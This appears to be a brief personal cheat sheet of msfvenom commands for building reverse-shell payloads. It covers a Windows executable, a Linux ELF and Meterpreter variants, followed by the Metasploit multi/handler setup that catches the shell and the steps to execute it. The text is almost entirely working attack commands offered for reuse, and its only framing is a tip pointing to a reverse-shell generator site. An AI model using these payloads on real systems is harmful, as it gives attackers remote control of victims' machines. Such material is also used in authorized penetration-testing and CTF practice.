 Compiling some one liners that can be used 
also note revshell online is pretty good

Basic format (windows)
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=<listen_port> -f exe -o shell.exe
```

Basic format (linux)
```bash
# use to create .elf files (linux executables) -- kinda rare/niche use case
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=<listen_port> -f elf -o shell.elf
```

Meterpreter Rev shell
```bash
# Create linux rev shell
msfvenom -p linux/meterpreter/reverse_tcp LHOST=<listen_ip> -f elf -o shell LPORT=8080
# Create windows rev shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<listen_ip> -f exe -o shell.exe LPORT=8080

# Start listener
msfconsole
use exploit/multi/handler
set LHOST tun0
set LPORT 8080
set payload <OS>/meterpreter/reverse_tcp
run

# Fire rev shell
chmod +x shell
./shell
```